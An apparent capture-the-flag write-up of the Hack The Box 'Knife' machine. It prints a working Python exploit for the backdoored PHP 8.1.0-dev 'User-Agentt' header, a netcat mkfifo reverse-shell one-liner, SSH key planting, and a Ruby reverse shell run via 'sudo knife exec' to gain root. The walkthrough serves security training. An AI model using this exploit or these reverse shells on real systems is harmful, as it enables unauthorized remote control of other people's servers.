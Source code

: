 ```yaml
---
layout: default
title : muzec - Knife Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/119285678-8f068580-bc10-11eb-8cc3-43af50cce0b8.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```                                                                                                                                                                      
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.129.136.149]
└─$ cat nmap.nmap            
# Nmap 7.91 scan initiated Sun May 23 16:18:08 2021 as: nmap -sC -sV -oA nmap 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 23 16:19:40 2021 -- 1 IP address (1 host up) scanned in 91.65 seconds
```
We just have 2 open ports let hit it going to the web server which is on port 80 i find nothing spend hours here really.

![image](https://user-images.githubusercontent.com/69868171/119285678-8f068580-bc10-11eb-8cc3-43af50cce0b8.png)

Bursting directory but nothing so i try to run `Nikto` to see what am missing.

![image](https://user-images.githubusercontent.com/69868171/119286004-66cb5680-bc11-11eb-9d1d-b97394d35cef.png)

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The following exploit uses the backdoor to provide a pseudo system shell on the host.

```
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now let save in a file for example i use `php-8.1.0-rce.py` now let run it.

![image](https://user-images.githubusercontent.com/69868171/119286341-291afd80-bc12-11eb-8632-0152be044965.png)

And we have shell boom but it really a dumb shell let try to transfer it.

1. Start an Ncat listener *nc -nvlp 4444*
2. rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f *edit the port and IP*

Now let run it on the dumb shell we have to get a new shell on our listener.

![image](https://user-images.githubusercontent.com/69868171/119286723-076e4600-bc13-11eb-9309-aa4aa91d79a9.png)

Spawning a TTY shell with ` python3 -c'import pty; pty.spawn ("/bin/bash")'` and we are good now let get to the home directory to get the user.txt .

![image](https://user-images.githubusercontent.com/69868171/119286858-48fef100-bc13-11eb-9279-c540fe4d64c0.png)

We have user.txt now let move to root seems we have the SSH folder.

### Privilege Escalation

Now moving to the SSH folder we have the private key and the authorized_keys also with public key.

![image](https://user-images.githubusercontent.com/69868171/119286997-94190400-bc13-11eb-91ef-333133aaca9b.png)

Going back to my machine i generated an SSH private and public key and add it to the authorized_keys of the target and also use the private key to SSH into the machine.

![image](https://user-images.githubusercontent.com/69868171/119287328-4b157f80-bc14-11eb-9fdd-0ea15cb61c55.png)

Now let log in.

![image](https://user-images.githubusercontent.com/69868171/119287393-6bddd500-bc14-11eb-9bb8-fb14d8b15c6a.png)

We are in checking `sudo -l` cool seems we can run `knife` to get root.

![image](https://user-images.githubusercontent.com/69868171/119287502-9c257380-bc14-11eb-8243-421bbce68224.png)

Going through `knife command options` found something cool that can give us a reverse shell probably we just need to paly with it.

1. `sudo /usr/bin/knife exec`

![image](https://user-images.githubusercontent.com/69868171/119287815-4d2c0e00-bc15-11eb-9362-c14630a4e2f7.png)

Since it in ruby we need to add a ruby script yes a reverse shell own we be cool.

2. `exit if fork;c=TCPSocket.new("10.0.0.1","5555");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}`

![image](https://user-images.githubusercontent.com/69868171/119287927-8ebcb900-bc15-11eb-849b-598f1f0aac75.png)

Before running let start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/119287969-aeec7800-bc15-11eb-9396-f96456a47fdd.png)

Now to run it `Ctrl+D` and boom we should have shell in root.

![image](https://user-images.githubusercontent.com/69868171/119288163-05f24d00-bc16-11eb-87a8-76e1a8e23754.png)

Box rooted and we are done.

![image](https://user-images.githubusercontent.com/69868171/119288387-726d4c00-bc16-11eb-9f86-3f97e974cf1e.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


